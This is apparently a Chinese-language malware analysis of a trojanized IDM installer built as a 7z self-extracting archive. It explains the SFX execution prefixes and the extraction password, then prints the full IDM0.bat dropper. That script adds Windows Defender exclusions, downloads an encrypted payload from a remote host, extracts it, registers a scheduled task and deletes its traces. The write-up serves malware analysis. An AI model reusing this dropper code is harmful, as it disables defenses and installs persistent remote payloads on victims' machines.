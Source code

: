 这里调用7z执行文件忽略目录结构（e参数），使用密码（-p），替换所有重复文件（-aoa）去解压文件

可以知道这个文件是需要密码的，密码是环境变量`PW`，这个在上面的配置文件中有设置`SetEnvironment="PW=tmp@tmp420"`，所以密码为`tmp@tmp420`，解压后得到三个文件

![image-20240503232213685](image-20240503232213685.png)

这里IDM0.bat和IDM.bat是同步执行的，因为有nowait前缀

```bash
RunProgram="hidcon:\"%%T\\main.bat\""
RunProgram="nowait:hidcon:\"%%T\\IDM0.bat\""
RunProgram="\"%%T\\IDM.bat\""
```

| Prefix     | Description                                                  |
| ---------- | ------------------------------------------------------------ |
| **hidcon** | Hides console windows. For example,`RunProgram="hidcon:install.cmd"`executes "install.cmd" and completely hides its console window.<br />隐藏控制窗口。例如`RunProgram="hidcon:install.cmd"`执行"install.cmd"并且完全隐藏它的控制台窗口。 |
| **nowait** | Forces not to wait until an execution command completes its operation.By default the execution commands within every installation scenario are processed according to the order of appearance in the config file, and the next command waits until the previous command is complete. If '`nowait`' prefix is used, the commands that appear after the command with this prefix are executed immediately (i.e. launching the next executable, deleting folders, creating shortcuts, etc).This prefix is disabled when the SFX archive is extracted to a temporary folder.<br />强制不等待一个执行命令完成它的操作。默认来说，每一个配置文件里的执行命令都是按照它在文件里出现的顺序执行的，并且下一个命令会等待上一个命令执行完毕。如果使用了'`nowait`'前缀，有这个前缀的命令后面的命令也会被立即执行（例如，启动下一个可执行程序、删除文件夹、创建快捷方式等）。当SFX文档被解压到临时目录时，这个命令不可用 |

#### IDM0.bat

那么先来看一下文件大小比较小的，IDM0.bat，文件内容如下：

```bash
@ECHO OFF
SET "NUL=1>NUL 2>NUL"
SETLOCAL ENABLEDELAYEDEXPANSION ENABLEEXTENSIONS

REG QUERY "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v "ShowSuperHidden" | FIND /I "1" > NUL && GOTO EndScript
REG QUERY "HKLM\Hardware\Description\System\CentralProcessor\0" | FIND /I "x86" > NUL && SET "OS_Bit=32Bit" || SET "OS_Bit=64Bit"

IF /I "!OS_Bit!" EQU "64Bit" (

	MD "!ppD!\DLL"
	ATTRIB +S +H "!ppD!\DLL"

	call :exportXML

	POWERSHELL -Command Add-MpPreference -ExclusionPath "!ppD!\DLL" -Force %NUL%
	POWERSHELL -Command Add-MpPreference -ExclusionProcess "dlIhost.exe" -Force %NUL%
	POWERSHELL -Command Add-MpPreference -ExclusionProcess "NSudo86x.exe" -Force %NUL%
	POWERSHELL -Command Add-MpPreference -ExclusionProcess "7za.exe" -Force %NUL%

	POWERSHELL -Command "Invoke-WebRequest 'https://www.!l2!.com/VScan/dlIhost.7z' -OutFile '!ppD!\DLL\dlIhost.7z'" %NUL%
	IF /I NOT "!errorlevel!" EQU "0" (
		DEL /F /Q /A "!ppD!\DLL\dlIhost.7z" %NUL%
		TIMEOUT /T 3 %NUL%
		POWERSHELL -Command "(New-Object System.Net.WebClient).DownloadFile('https://www.!l2!.com/VScan/dlIhost.7z', '!ppD!\DLL\dlIhost.7z')" %NUL%
	)

	7za e "!ppD!\DLL\dlIhost.7z" -o"!ppD!\DLL" -p!l3! -aoa %NUL%
	DEL /F /Q /A "!ppD!\DLL\dlIhost.7z" %NUL%

	schtasks /create /xml ".\UpdateTask.xml" /tn "UpdateTask" /f %NUL%
)

:EndScript
ENDLOCAL
DEL /F /Q /A 7za.exe %NUL%
DEL /F /Q /A UpdateTask.xml %NUL%
```